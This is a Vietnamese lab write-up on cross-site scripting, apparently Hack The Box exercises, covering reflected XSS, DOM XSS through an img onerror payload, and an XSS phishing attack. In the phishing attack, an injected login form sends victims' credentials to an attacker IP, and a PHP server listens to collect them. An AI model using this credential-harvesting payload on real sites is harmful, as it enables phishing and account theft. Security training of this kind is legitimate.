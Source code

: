 # XSS

![Screenshot 2025-05-09 012554](https://github.com/user-attachments/assets/a9bf5e3b-80e3-4c0c-9469-858fe8a31364)

![Screenshot 2025-05-09 013154](https://github.com/user-attachments/assets/d315fd9f-8b40-4742-bebb-1673aa5f4f35)

> <script>alert('heloooo')</script>

![Screenshot 2025-05-09 013237](https://github.com/user-attachments/assets/b7cf1b2b-1be1-42be-a64b-8dd5a693aee3)

![image](https://github.com/user-attachments/assets/3cf85edc-c839-4f7d-a543-c4cfa3fcd176)

# DOM XSS

![image](https://github.com/user-attachments/assets/10427616-f046-4fa7-931e-06e663b051d6)

Lần này payload không hoạt động, vì payload được gán thẳng vào innerHTML

![image](https://github.com/user-attachments/assets/82bc8f55-fa28-444a-aaa3-77026b2a06fb)

Có lẻ innerHTML không chạy các thẻ <script> nhưng <img thì được

Ta sẽ gửi một payload như sau 

> <img src="" onerror="alert('aaaa')>

khi ảnh không được tải lên thì sự kiện onerror sẽ thực thi và khi đó

![image](https://github.com/user-attachments/assets/3a98aa17-0013-4485-b1ce-11f96f4475be)

# Phisinggg

![Screenshot 2025-05-09 142539](https://github.com/user-attachments/assets/9523ba51-a53f-4500-adf7-ba65a032a4fc)

Nó cho phép ta nhập vào 1 url hình ảnh vào hiển thị chúng 

![Screenshot 2025-05-09 143254](https://github.com/user-attachments/assets/43d153eb-ee6e-43d7-b98c-2bc5937a1e58)
![Screenshot 2025-05-09 143349](https://github.com/user-attachments/assets/3fd6f1d2-26e7-487e-8cf5-55cab3cdf3ef)

Tiếp theo tôi sẽ tiêm vào một form đăng nhập

![Screenshot 2025-05-09 144552](https://github.com/user-attachments/assets/ce5847b0-92c3-4ec4-9601-3e6b61436cf0)

Tiếp theo tôi chuẩn bị mã XSS thử nghiệm trên biểu mẫu dễ bị tấn công trên, tôi sử dụng hàm trong javascript là document.write() nó có chức năng ghi nội dung trực tiếp ra trang html.

``` document.write('<h3>Please login to continue</h3><form action=http://10.10.15.205><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById('urlform')?.remove()</script><!-- ```

10.10.15.205 sẽ là IP của máy mà chúng ta dùng để lắng nghe thông tin của nạn nhân

Ta được 1 form đăng nhập như này

![image](https://github.com/user-attachments/assets/d656c6e6-0ad3-4f17-a89e-e42d2683fde3)

Bây giờ ta phải làm sao để khi nạn nhân đăng nhập nó sẽ chuyển hướng đến giao diện nhập url ban đầu

![image](https://github.com/user-attachments/assets/d21c5e33-5763-4a31-99db-d3c0c69a97e7)

Ta tạo 1 thư mục tạm vào chèn đoạn mã sao vào file index.php

![image](https://github.com/user-attachments/assets/9f5f9acf-e211-4f7d-9699-4a016774934f)


Bây giờ chúng ta khởi động máy chủ php để lắng nghe, có thể sử dụng thay cho netcat

> sudo php -S 0.0.0.0:80

![image](https://github.com/user-attachments/assets/8b5996ef-2180-47a4-9f3c-7391426002e4)

Ta được thông tin của nạn nhân, Ví dụ nếu trang web hackthebox.com có lỗi tương tự thì ta sẽ có được tài khoảng htb của nạn nhân



















